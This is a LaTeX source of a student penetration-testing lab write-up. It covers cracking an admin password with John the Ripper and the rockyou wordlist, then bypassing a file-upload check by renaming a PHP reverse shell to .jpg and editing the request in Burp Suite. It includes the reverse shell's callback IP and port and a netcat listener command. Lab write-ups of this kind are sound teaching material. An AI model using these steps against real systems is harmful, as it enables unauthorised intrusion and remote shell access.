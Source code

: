 \documentclass[notitlepage]{article}
\begin{document}
   \subsection{Admin Panel Access and File Upload}
    Using john the ripper as follows revealed the correct password
\begin{verbatim}
sudo gunzip /usr/share/wordlists/rockyou.txt.gz
john --wordlist=/usr/share/wordlists/rockyou.txt
\end{verbatim}
    which revealed the following credentials
\begin{verbatim}
Username: brian
Password: Sw...h
\end{verbatim}
    Once on the admin panel, there is a screen that tell us we can upload files but they Must be jpg or png. After some trial and error, I realized that it didn't care what the file type 
    was and is only checking the extension. So, I got the reverse shell and amended it to read
\begin{verbatim}
$ip = '172.24.0.10'
$port = '6166'
\end{verbatim}
    then exited and did 
\begin{verbatim}
mv php-reverse-shell.php reverse.php.jpg
nc -nlvp 6166
\end{verbatim}
    as we made sure that the reverse shell tries to come back to our ip on port 6166. Going back to admin panel and uploading this file, we can then try and navigate to the file.
    Going to /brian/imgfiles/reverse.php.jpg reveals and issue though. The host machine tries to serve up the file as a jpg file and does not start up the code the way we expect it to. So, we
    must find another way to try and fool it.
    \subsection{Burp Suite}
    Burp suite allows to directly change the way we send our post requests to the host. If we once again upload the file on burp suite, we have more control to examine the contents of the post
    request and use the repeated to send our own custom post. Picture below is the original post \\
\texttt{[image: ~/Desktop/school/fall2023/pen/ex/ex120/initial\_post]} \\
    We can see that it does trick the system to sending it as a image/jpeg and the extension here is .jpg. However, the host seems to only verify that the content type is image/jpeg if 
    we send the file this way and does not in fact check for the extension or run the file command on the file that we upload. So, all we need to do is to modify the name and post the new request
    as follows \\
\texttt{[image: ~/Desktop/school/fall2023/pen/ex/ex120/altered\_post]} \\
    We can now navigate to reverse.php with our netcat open. After this, we have access to the site again and can see the key we had found earlier \\
\texttt{[image: ~/Desktop/school/fall2023/pen/ex/ex120/proof\_and\_key]} \\
\end{document}
